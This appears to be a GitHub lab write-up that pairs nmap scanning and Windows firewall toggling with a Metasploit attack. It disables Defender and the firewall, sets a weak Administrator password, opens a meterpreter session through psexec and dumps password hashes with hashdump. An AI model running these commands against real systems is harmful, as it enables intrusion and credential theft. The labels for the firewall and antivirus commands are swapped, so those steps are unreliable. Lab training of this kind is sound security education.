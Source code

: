# Host-Firewalls-and-Nmap

![Image 11-13-24 at 11 34 AM](https://github.com/user-attachments/assets/4398ee24-1416-442c-bc53-ebf2e26030aa)
First we start off with in Windows computer to find the IP address
Click the Command Prompt and type in <pre>ipconfig</pre>

Once in Linux
![Image 11-13-24 at 11 30 AM](https://github.com/user-attachments/assets/4056affa-1bf6-4031-abeb-73c77cde875a)
Become a root user by using <pre>sudo su -</pre>

![Image 11-13-24 at 11 34 AM](https://github.com/user-attachments/assets/0f14b49a-ab4b-4b1b-b86b-edcab3013fe6)
In Linux put the comand: <pre>nmap (IP address you got from the command prompt)</pre>
You should be able to see which ports are opened 

In the Windows command prompt let's enable the Windows firewall
![Image 11-13-24 at 11 36 AM](https://github.com/user-attachments/assets/0eb69157-ebcb-45bf-a4fe-ee08b36d0866)
<pre>netsh advfirewall set allprofiles state on</pre>

Now rescan the ports in Linux
![Image 11-13-24 at 11 39 AM](https://github.com/user-attachments/assets/2b71fa92-da28-4e4b-a920-77cba29c7175)
<pre>nmap 10.10.123.169</pre>
Notice how the scan looks the same because the firewall is enabled

![Image 11-13-24 at 11 55 AM](https://github.com/user-attachments/assets/a3f09c94-f903-4dde-9cd1-78d2d719c89c)
In PowerShell, let's disable the firewall by typing: <pre>`Set-MpPreference -DisableRealtimeMonitoring $true`</pre>
In PowerShell, let's disable Antivirus <pre>netsh advfirewall set allprofiles state off</pre> into PowerShell
Use an easy password such as password1234
In PoweerShell, type in <pre>ipconfig</pre> to check the IP address

Back to Kali Linux type in <pre>msfconsole -q</pre> ![Image 11-13-24 at 12 02 PM](https://github.com/user-attachments/assets/c46aceda-feae-47a3-82de-730b1b4223d4)
In another Kali terminal you need to get the IP address of the Linux machine
Type <pre>ifconfig</pre> into the terminal

Once you have the IP address of the Linux machine got back to the first terminal
![Image 11-13-24 at 12 02 PM](https://github.com/user-attachments/assets/180e4027-b07b-4701-8412-db532cb9f08d)
msf6 > `use exploit/windows/smb/psexec`


msf6 exploit(windows/smb/psexec) > `set RHOST 10.10.123.169`

msf6 exploit(windows/smb/psexec) > `set LHOST 10.10.94.202`


msf6 exploit(windows/smb/psexec) > `set SMBUSER Administrator`

msf6 exploit(windows/smb/psexec) > `set SMBPASS password1234` 

msf6 exploit(windows/smb/psexec) > `exploit`

Now we need to dump the password hashes:
meterpreter > `hashdump`
![Image 11-13-24 at 12 07 PM](https://github.com/user-attachments/assets/15c92ba5-f65a-44ad-88ca-e280fa876b49)
Here you should see a bunch of password hashes
To kill it
meterpreter > `exit -y`

Once done repeat the steps in PowerShell to re-enable your firewall
PS C:\Users\Administrator> `netsh advfirewall set allprofiles state on`




